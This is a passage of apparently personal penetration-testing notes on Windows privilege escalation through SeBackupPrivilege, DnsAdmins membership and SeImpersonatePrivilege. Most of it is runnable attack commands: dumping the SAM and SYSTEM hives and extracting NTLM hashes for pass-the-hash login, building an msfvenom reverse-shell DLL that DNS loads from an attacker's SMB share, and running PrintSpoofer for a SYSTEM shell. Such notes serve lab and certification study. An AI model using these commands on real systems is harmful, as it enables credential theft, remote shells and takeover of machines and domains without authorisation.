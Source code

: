 4. SeBackupPrivilege - can be used on host and Domain Controller(not covered)
- Detection: `evil-winrm -i 192.168.1.41 -u aarti –p "123"` -> `whoami /priv` -> look for SeBackupPrivilege (enabled)
- Exploitation:
```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

#download Temp folder with sam and system from victim to kali
cd Temp
download sam
download system

#use pypykatz (mimikatz) on kali to extract Admin's NTLM hashes
pypykatz registry --sam sam system

#use the extracted NTLM hash to access back to victim
evil-winrm -i 192.168.1.41 -u administrator -H "##Hash##"
net user admin
```

5. DnsAdmins to DomainAdmin
- Detection: `whoami /groups` -> see if DnsAdmins are in the groups
- Exploitation: as member of the DnsAdmins group can run the DLL file with elevated privileges. To exploit that privilege, we need to craft a malicious DLL file, transfer the dll via SMB, stop and start DNS service.
```
#on kali
evil-winrm -i 192.168.1.172 -u jeenali -p "Password@1"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f dll > raj.dll
smbserver.py -smb2support rai /root

#on victim to download the dll and restart the DNS service
dnscmd.exe /config /serverlevelplugindll \\192.168.1.5\raj\raj.dll
sc stop dns
sc start dns

#on kali to catch reverse shell
nc -nvlp 4444
```

6. SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege
- https://juggernaut-sec.com/seimpersonateprivilege/#Impersonating_the_Local_SYSTEM_Account_with_Juicy_Potato
- Whenever a user is assigned the SeImpersontatePrivilege, the user is permitted to run programs on behalf of that user to impersonate a client. 
- Detection: whoami /priv, either SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege should be enabled
- Exploitation: We can use Juicy Potato, PrintSpoofer or RoguePotato, RogueWinRM (needs winrm disabled), SweetPotato, and GodPotato.
- Exploitation: Transfer PrintSpoofer.exe to victim and execute
```bash
PrintSpoofer64.exe -i -c cmd
whoami
```
